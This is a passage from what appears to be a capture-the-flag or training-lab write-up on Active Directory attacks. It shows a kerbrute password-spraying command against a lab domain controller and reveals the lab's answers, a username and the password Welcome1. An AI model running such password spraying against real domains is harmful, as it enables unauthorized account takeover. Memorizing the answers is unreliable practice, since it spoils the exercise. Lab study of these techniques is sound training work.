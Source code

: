 Use `kerbrute` for password spraying with the password `Welcome1`

```zsh
kerbrute passwordspray -d inlanefreight.local --dc 172.16.7.3 valid_users.txt  Welcome1
```

![](../imgs/Lab/Lab28/10.png)

We get the user `BR086`

- **Answer:** BR086

![](../imgs/Lab/Lab28/11.png)

## **What is this user's password?**

- **Answer:** Welcome1

![](../imgs/Lab/Lab28/12.png)

## **Locate a configuration file containing an MSSQL connection string. What is the password for the user listed in this file?**

**Share Enumeration**
